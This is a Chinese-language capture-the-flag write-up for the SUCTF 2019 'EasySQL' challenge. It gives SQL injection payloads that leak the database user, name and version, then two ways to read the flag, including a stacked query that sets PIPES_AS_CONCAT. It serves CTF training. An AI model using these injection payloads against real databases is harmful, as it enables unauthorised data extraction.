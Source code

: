 # [SUCTF 2019]EasySQL

## 解法一
`query=true%23` 返回1

`query=false%23` 返回0

`query=user()%23` 获取到用户名：root@localhost

`query=database()%23` 获取到数据库名：ctf

`query=version()%23` 获取到数据库版本：10.3.18-MariaDB

尝试Fuzz发现过滤了大部分关键字，而且大小写不敏感

尝试`query=1,2,3,4%23`发现返回一个长度为4的array

尝试用*获取`query=*,2`，get flag

## 解法二
这道题的考点其实是一个 sql_mode 参数

Oracle 在缺省情况下支持使用 " || "连接字符串 ， 但是在MySQL中缺省不支持 ，MySQL 缺省使用 CONCAT 系列函数来连接字符串 .

可以通过修改 sql_mode 模式 : PIPES_AS_CONCAT 来实现将 " || "视为 字符串连接符 而非 或 运算符 .

因此这里预期的 Payload 是通过修改 sql_mode 来拿到 Flag ，如下

Payload: `1;set sql_mode=PIPES_AS_CONCAT;select 1`

拼接后就变成了 `select 1;set sql_mode=PIPES_AS_CONCAT;select 1 || flag FROM Flag`

成功拿到 Flag